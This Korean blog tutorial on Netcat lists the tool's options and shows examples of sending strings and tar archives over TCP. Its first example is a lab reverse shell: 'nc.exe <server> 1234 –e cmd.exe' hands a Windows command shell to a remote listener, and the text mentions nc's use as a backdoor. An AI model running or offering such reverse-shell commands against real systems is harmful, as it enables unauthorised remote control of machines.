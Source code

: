 ```yaml
---
layout: post
title:  "[NC] NetCat 사용하기"
date:   2016-09-08 19:23:13
author: Choi HyeSun
categories: infra
tags:
  - CentOS
  - NC
  - NetCat
  - 문자열보내기
  - 
---
```


## NC(Netcat)

- Netcat(이하 nc)은 Network connection에서 raw-data read, write를 할 수 있는 유틸리티 프로그램

- 일반적으로는 UNIX의 cat과 비슷한 사용법을 가지고 있지만 cat이 파일에 쓰거나 읽듯이 nc는 network connection에 읽거나 씀

- 스크립트와 병용하여 network에 대한 debugging, testing tool로써 매우 편리

- 해킹에도 이용범위가 매우 넓음

- 임의의 TCP, UDP 포트에서 상대방 TCP, UDP로 데이터를 보내는 도구

- nc.exe 실행파일과 명령어를 통해 백도어 기능을 사용할 수 있음

<br>
<br>

## 사용법

- nc \[options] \[target host] \[ports]

- options

  - \-4: IPv4

  - \-6: IPv6

  - \-D: socket 디버깅 가능

  - \-d: STDIN 입력을 읽어들이지 않음

  - \-h: help

  - \-i: send/recv, multiple port 연결 사이의 interval 지정. 

  - \-k: listening 모드로 실행되었을 때 연결이 완료되더라도 프로세스가 종료되지 않도록 하는 옵션.
  <br>-l 옵션과 함께 사용되지 않으면 에러.

  - \-l: listening 모드로 실행. -p, -s, -z 옵션과 함께 사용되면 에러. -w 옵션은 무시됨.

  - \-n: hostname을 ip로만 지정.

  - \-p: source port 지정. -l 옵션과 함께 사용되면 에러.

  - \-r: source/destination port를 범위로 지정했을 때 랜덤한 순서로 연결시도.

  - \-S: RFC 2385 TCP MD5 signature 옵션.

  - \-s: 패킷을 전송할 IP 지정. -l 옵션과 함께 사용되면 에러.

  - \-T: 연결에 ToS 지정.

  - \-C: CRLF line-ending 전송.

  - \-t: netcat을 telnet session으로 사용가능 하게.

  - \-U: Unix Domain Socket을 사용하도록 지정.

  - \-u: UDP 사용.

  - \-v: 과정 출력

  - \-w: connection/stdin timeout 지정. -l 옵션과 함께 사용하면 무시됨. 

  - \-X: proxy version 지정.

  - \-x: proxy server의 hostname, port 지정.

  - \-z: 아무 데이터도 전송하지 않고 listening daemong만 스캔. -l 옵션과 함께 사용하면 에러.
 
<br>
<br>

## 예시 1. cmd.exe 권한 받기

- 다음과 같은 환경 준비

  - Server : win7 / ip 192.168.10.64
  - Client : win XP / ip 192.168.10.22

  - 서버 및 클라이언트에 nc.exe 설치

  - IP 주소 확인

- 첫 번째. Server에서 1234포트를 열고 nc.exe를 실행한 후 대기

  - C:\\> nc.exe –lvp 1234
  
- 두 번째. Client가 Server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여

  - C:\\> nc.exe 192.168.10.64 1234 –e cmd.exe
  
  - Server는 client의 cmd.exe 권한을 갖게 됨

- 세 번째. Server는 client의 cmd.exe를 통해 작업을 할 수 있음
 
  - C:\> ipconfig했을 때 Client의 IP 정보를 볼 수 있음
  
<br>
<br>

## 예시 2. 문자열 보내기

- 수신 : nc –lkv target_port_number

- 발신 : echo “hello world” | nc target_ip_address target_port_number

- 진행 1. 수신 : 포트 열고 대기

{% highlight bash %}
$ nc -lkv 1004
{% endhighlight %}

- 진행 2. 발신 : 해당 포트로 문자열 보내기

{% highlight bash %}
$ echo "Hello Sun" | nc 192.168.64.100 1004
{% endhighlight %}

- 진행 3. 수신 : 문자열 받은 것 확인

{% highlight bash %}
$ Connection from 192.168.64.101 port 1004 [tcp/src] accepted
Hello Sun
{% endhighlight %}

<br>
<br>

## 예시 3. 파일 보내기

- 수신 : nc -l target_port_number | tar xvzf –

  - z – 압축 / x – 해제

- 발신 : tar cvzf – a.text b.text | nc target_ip_address target_port_number

  - z – 압축 / c – 생성

- nc로 파일 송수신시 ownership 및 permission이 보존됨

- 진행 1. 수신 : 파일 수신 대기

![image](/img/2016-09-08/nc-001-test1.png)

- 진행 2. 발신 : 파일 보내기

![image](/img/2016-09-08/nc-002-test2.png)

- 진행 3. 수신 : 파일 수신 확인

![image](/img/2016-09-08/nc-003-test3.png)
